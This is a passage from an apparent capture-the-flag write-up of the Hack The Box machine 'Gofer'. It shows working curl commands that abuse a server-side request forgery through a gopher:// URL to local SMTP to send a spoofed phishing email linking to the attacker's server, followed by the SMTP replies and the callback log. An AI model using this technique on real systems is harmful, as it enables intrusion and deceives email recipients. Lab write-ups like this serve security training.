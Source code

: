 Ah interesting we even get back the errors straight from postfix, so maybe we can just use the actual address of the server? Ah, no same error... Arf the domain is `gofer.htb` on `gopher.htb`, nevermind
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/_HELO%252010%252E10%252E11%252E225%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253D%2522http%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%2522%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as CEBD5816D
221 2.0.0 Bye
1
```

And yes we get a callback from Jocelyn on 225
```bash
updog
[+] Serving /home/blnkn/www...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.0.203:9090
Press CTRL+C to quit
10.10.11.225 - - [13/Aug/2023 19:51:00] "GET /index.html%22 HTTP/1.1" 302 -
10.10.11.225 - - [13/Aug/2023 19:51:00] "GET / HTTP/1.1" 200 -
```

Note that the quotes on our href has only been urldecoded once ...not sure exactly what happened there, tried to fix it with single quotes
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/_HELO%252010%252E10%252E11%252E225%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253D%2527http%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%2527%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as B9C72816D
221 2.0.0 Bye
1
```
